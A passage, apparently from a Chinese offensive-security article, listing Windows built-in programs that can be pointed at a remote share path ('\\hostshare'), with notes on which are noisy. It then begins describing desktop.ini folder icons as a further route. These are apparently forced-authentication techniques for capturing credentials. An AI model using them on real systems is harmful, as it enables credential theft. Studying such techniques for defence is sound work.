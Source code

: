 ```bash
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo
```

### 通过系统图标

每个文件夹底下都有个文件 desktop.ini 来指定文件夹图标之类的，默认不可见，可以通过在控制面板中去掉"隐藏受保护的操作系统文件"看到  
[![](assets/1701222524-02348ac5088674f1f9dae54b17a45e16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141026-d2f3c938-8db4-1.png)  
每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到 desktop.ini，可以尝试更改图标，就可以看到了  